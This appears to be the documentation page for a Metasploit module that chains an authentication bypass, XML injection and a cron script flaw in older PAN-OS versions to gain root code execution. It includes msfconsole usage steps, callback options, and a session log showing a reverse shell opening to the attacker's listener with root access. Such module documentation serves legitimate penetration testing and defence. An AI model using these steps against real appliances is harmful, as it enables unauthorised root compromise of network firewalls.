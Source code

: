 ## Description

This module exploits a chain of vulnerabilities in Palo Alto Networks products running
PAN-OS versions prior to 6.1.19, 7.0.19, 7.1.14, and 8.0.6. This chain starts by using
an authentication bypass flaw to to exploit an XML injection issue, which is then
abused to create an arbitrary directory, and finally gains root code execution by
exploiting a vulnerable cron script. This module uses an initial reverse TLS callback
to stage arbitrary payloads on the target appliance. The cron job used for the final
payload runs every 15 minutes by default and exploitation can take up to 20 minutes.

## Vulnerable Application

This exploit was specifically written against PAN-OS 7.1.0 running in a QEMU (kvm) virtual machine.
This VM is not generally available, but the specific disk image used was `PA-VM-KVM-7.1.0.qcow2`.


## Verification Steps

1. Start msfconsole
2. ```use exploit/linux/http/panos_readsessionvars```
3. ```set RHOST [IP]```
4. ```exploit```
5. You should get a session (eventually)

## Options

### CBHOST The callback listener address if the default is not accurate (port forwarding, etc)

### CBPORT The callback listener port


## Scenarios

```
msf exploit(linux/http/panos_readsessionvars) > exploit

[*] Started reverse TCP handler on 192.168.122.1:4444
[*] Creating our corrupted session ID...
[*] Verifying that we can access the debug console with our corrupted session ID...
[*] Calling Administrator.get to create directory under /opt/pancfg/mgmt/logdb/config/1/...
[*] Waiting up to 20 minutes for the cronjob to fire and execute...
[*] Waiting for a session, 1200 seconds left...
[*] Waiting for a session, 1169 seconds left...
[*] Waiting for a session, 1138 seconds left...
[*] Waiting for a session, 1107 seconds left...
[*] Waiting for a session, 1076 seconds left...
[*] Waiting for a session, 1044 seconds left...
[*] Waiting for a session, 1013 seconds left...
[*] Waiting for a session, 982 seconds left...
[*] Waiting for a session, 951 seconds left...
[*] Waiting for a session, 920 seconds left...
[+] Sending payload of 67 bytes to 192.168.122.98:39499...
[*] Command shell session 7 opened (192.168.122.1:4444 -> 192.168.122.98:44858) at 2018-05-05 15:45:02 -0500
[!] Remember to manually purge the base directory: 'rm -rf /opt/pancfg/mgmt/logdb/config/1/'
[*] Shutting down payload stager listener...

id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```
